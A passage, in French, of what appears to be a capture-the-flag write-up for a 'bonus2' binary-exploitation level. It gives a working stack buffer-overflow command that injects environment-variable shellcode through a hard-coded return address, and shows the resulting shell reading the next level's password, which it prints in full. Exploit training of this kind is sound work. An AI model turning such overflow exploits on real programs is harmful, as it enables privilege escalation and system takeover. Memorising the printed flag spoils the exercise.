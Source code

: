 - Premier argument: 40 'A' pour remplir le buffer username
- Second argument: 18 'B' pour le padding + l'adresse du shellcode + 7 'C' de padding

```bash
env -i SHELLCODE=$SHELLCODE LANG=fi ./bonus2 "$(python -c 'print "A"*40')" "$(python -c 'print "B"*18 + "\x06\xff\xff\xbf" + "C"*7')"
```

## Obtention du Mot de Passe

Après exécution de notre exploit, nous avons obtenu avec succès un shell en tant que `bonus3`:

```bash
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���CCCCCCC
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Passage au Niveau Suivant

Utilisez le mot de passe pour vous connecter en tant que `bonus3`:

```bash
su bonus3
# Entrez le mot de passe: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
